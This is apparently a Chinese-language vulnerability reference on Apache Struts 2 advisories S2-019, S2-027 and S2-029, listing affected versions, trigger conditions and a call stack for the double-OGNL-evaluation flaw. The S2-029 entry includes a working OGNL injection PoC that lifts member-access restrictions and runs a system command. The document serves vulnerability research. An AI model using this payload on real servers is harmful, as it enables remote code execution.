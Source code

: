 ### [S2-019](https://cwiki.apache.org/confluence/display/WW/S2-019)

触发条件

1. Struts 2.0.0 - 2.3.15.1

作用域

### [S2-027](https://cwiki.apache.org/confluence/display/WW/S2-027)

触发条件

1. Struts 2.0.0 - 2.3.16.3

### [S2-029](https://cwiki.apache.org/confluence/display/WW/S2-029)

触发条件

1. Struts 2.0.0 - 2.3.24.1 *（Struts 2.3.20.3除外）*
1. 部分受影响Struts标签 *（如`<s:i18n>`）* 的name或id属性值可控，且为OGNL表达式 *（如`%{name}`）*

作用域

1. 上述条件限制的参数

底层G点

`TextParseUtil.translateVariables()`

    [ PoC样本 ]
        '),#_memberAccess['allowPrivateAccess']=true,#_memberAccess['allowProtectedAccess']=true,#_memberAccess['allowPackageProtectedAccess']=true,#_memberAccess['allowStaticMethodAccess']=true,#_memberAccess['excludedPackageNamePatterns']=#_memberAccess['acceptProperties'],#_memberAccess['excludedClasses']=#_memberAccess['acceptProperties'],#a=@java.lang.Runtime@getRuntime(),#a.exec('calc'),new java.lang.String('

    [ 关键调用栈 ]
        -> org.apache.struts2.components.I18n.start()
        // 第一次解析
        -> org.apache.struts2.components.Component.findString()
        -> org.apache.struts2.components.Component.findValue()
        -> com.opensymphony.xwork2.util.TextParseUtil.translateVariables()
        -> com.opensymphony.xwork2.util.OgnlValueStack.findValue()
        -> com.opensymphony.xwork2.ognl.OgnlUtil.getValue()
        // 第二次解析
        -> org.apache.struts2.components.Component.findValue()
        -> com.opensymphony.xwork2.util.TextParseUtil.translateVariables()
        -> com.opensymphony.xwork2.util.OgnlValueStack.findValue()
        -> com.opensymphony.xwork2.ognl.OgnlUtil.getValue()

特点

1. 逻辑上的二次解析，与S2-001中的递归解析不同概念
